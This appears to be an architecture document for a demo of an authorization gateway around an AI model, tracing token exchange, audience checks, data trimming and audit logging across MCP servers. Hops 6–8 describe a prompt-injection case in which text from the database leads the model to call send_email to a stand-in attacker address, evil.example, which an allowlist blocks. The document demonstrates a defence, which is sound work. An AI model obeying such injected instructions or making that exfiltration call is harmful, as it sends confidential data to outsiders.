


# Architecture

One request, followed from the browser to the tool call and back, with the exact
claims present in the token at every hop. Ports and identifiers are the ones in
`docker-compose.yml`. Identifiers that look like URLs (`https://mcp.corp.internal/contracts`)
are OAuth audience values. Nothing ever fetches them.

## The cast

| Component | Port | Role |
| --- | --- | --- |
| `idp` | 8081 | Issues subject tokens, performs RFC 8693 token exchange, publishes JWKS, answers introspection |
| `gateway` | 8080 | The only component that talks to the model. Resolves virtual keys, exchanges tokens, enforces budget, writes the audit trail |
| `contracts-api` | 8091 | The system of record. Validates the caller's token by introspection and trims results by group |
| `mcp-contracts` | 8092 | MCP resource server for `search_contracts`. Audience `https://mcp.corp.internal/contracts` |
| `mcp-tickets` | 8093 | MCP resource server for `send_email`. Audience `https://mcp.corp.internal/tickets`. Owns the recipient allowlist |

## The request path

### Hop 1. User to gateway

```
POST /v1/ask
X-Virtual-Key: vk-legal-demo
{"user": "alice", "question": "Which contracts mention termination for convenience?"}
```

No token yet. The virtual key identifies the calling team and its budget, not the
person. The gateway looks up `vk-legal-demo`, finds team `legal` with a 5.00 USD
budget, and rejects the request with 401 if the key is unknown or 402 if the team
is over budget.

In this demo the gateway then logs the named user in against the IdP. A real
deployment does not do this: the user arrives holding their own OIDC token and
the gateway validates it instead of minting it. The rest of the path is identical
either way, which is the reason the shortcut is acceptable here and named out loud.

### Hop 2. Gateway to IdP, subject token

```
POST /login  {"username": "alice", "password": "demo"}
```

Claims in the returned token:

| Claim | Value |
| --- | --- |
| `iss` | `http://idp:8081` |
| `sub` | `alice` |
| `aud` | `https://gateway.corp.internal` |
| `scope` | `contracts.read tickets.write` |
| `groups` | `["legal", "all"]` |
| `act` | absent |

This token is good for talking to the gateway and nothing else. If it turns up at
an MCP server, that server refuses it, because its audience names the gateway.

### Hop 3. Gateway to IdP, token exchange

```
POST /token
grant_type=urn:ietf:params:oauth:grant-type:token-exchange
subject_token=<the token from hop 2>
subject_token_type=urn:ietf:params:oauth:token-type:access_token
resource=https://mcp.corp.internal/contracts
scope=contracts.read
```

The IdP refuses the exchange with `invalid_target` unless the subject token's
audience is the gateway. Claims in the issued token:

| Claim | Value | Why |
| --- | --- | --- |
| `iss` | `http://idp:8081` | Same issuer, same JWKS |
| `sub` | `alice` | The end user, preserved. This is what makes the audit trail worth reading |
| `aud` | `https://mcp.corp.internal/contracts` | One resource server, named. This is the whole of beat 2 |
| `scope` | `contracts.read` | Narrowed to the intersection of what was asked for and what alice has |
| `groups` | `["legal", "all"]` | Carried so the system of record can trim |
| `act` | `{"sub": "gateway"}` | The gateway acted on alice's behalf and says so |

The gateway holds a different token per resource server. It never forwards one
token to two places, which is why a compromised tickets server cannot read
contracts.

### Hop 4. Gateway to mcp-contracts

```
POST http://mcp-contracts:8092/mcp
Authorization: Bearer <contracts token>
```

Before the tool function runs, the MCP server checks, in order:

1. Signature against the IdP's JWKS.
2. `iss` equals its configured issuer.
3. `exp` is in the future, allowing 30 seconds of skew.
4. `scope` contains the tool's required scopes.
5. `aud` equals its own resource identifier. This is `validate_token_resource`.

Fail any of these and the call ends here with 401 or 403. The tool function is
never entered, so there is no chance for an argument check to be the only thing
between a stolen token and the data.

### Hop 5. mcp-contracts to contracts-api

```
POST http://contracts-api:8091/api/search
Authorization: Bearer <the same contracts token>
X-On-Behalf-Of: alice
```

The system of record does not trust the MCP server's word for who is calling. It
introspects the token at the IdP (RFC 7662), which returns `active`, `sub`, `aud`,
`scope` and `groups`, and it trims the result set on the `groups` it got back, not
on the header. The header is for logging.

Trimming happens here, at the data, before any text exists in the model's context:

```
hits         only contracts whose allowed_groups intersect the caller's groups
total        count of entitled matches
denied_count count of matches withheld, and nothing else about them
```

`denied_count` is the honest half of the design. bob learns that something exists
and that he cannot see it. He does not learn what it is.

### Hop 6. Gateway to the model

The gateway passes the tool result to the model. For `MODEL_BACKEND=ollama` this
is an OpenAI-compatible `POST /chat/completions` carrying the tool schemas. For
`MODEL_BACKEND=replay` it is a scripted stub that emits a fixed call sequence.

The model now holds text that came out of a database. If that text contains an
instruction, the model may follow it. Beat 3 is what that looks like.

### Hop 7. Gateway to mcp-tickets

The model emits `send_email(to="archive@evil.example", ...)`. The gateway performs
a second exchange, for `https://mcp.corp.internal/tickets` with scope
`tickets.write`, and calls the tickets server with that token. Same `sub`, same
`act`, different `aud`.

The tickets server runs the same five checks as hop 4, then applies its own policy:
the recipient domain must appear in `EMAIL_ALLOWED_DOMAINS`. `evil.example` does
not, so it returns `SendResult(sent=False, reason=...)`.

The refusal is a returned value, not an exception, deliberately. The model is told
no, the gateway records an attempt, and the transcript shows both. An exception
would have produced a stack trace and no evidence.

### Hop 8. The audit record

Every hop writes a structured line to stdout and to the gateway's ring buffer at
`GET /audit`. A record names the `sub`, the `act`, the `aud` it was presented to,
the tool, the arguments, the outcome and, for refusals, the reason. `sub` is the
person. That is the property that makes the log admissible in an incident review.

## Sequence

<picture>
  <source media="(prefers-color-scheme: dark)" srcset="diagrams/request-path-dark.svg">
  
</picture>

<details>
<summary>Mermaid source for the diagram above</summary>



</details>

## Where a failure stops

| Failure | Stopped at | Result |
| --- | --- | --- |
| Unknown virtual key | gateway, before any token exists | 401 |
| Team over budget | gateway | 402 |
| Subject token not audienced to the gateway | idp, during exchange | 400 `invalid_target` |
| Token minted for another resource | the MCP server, before the tool runs | 401 or 403 |
| Expired or unsigned token | the MCP server and the system of record | 401 |
| Caller not entitled to a document | contracts-api, at the data | hit withheld, counted in `denied_count` |
| Tool call to a disallowed recipient | mcp-tickets, in the tool | `SendResult(sent=false)` plus an audit record |

Note what is not in that table: the model. It is not a control. It is a component
that reads untrusted text and emits structured requests, and every one of those
requests crosses a boundary that checks it.
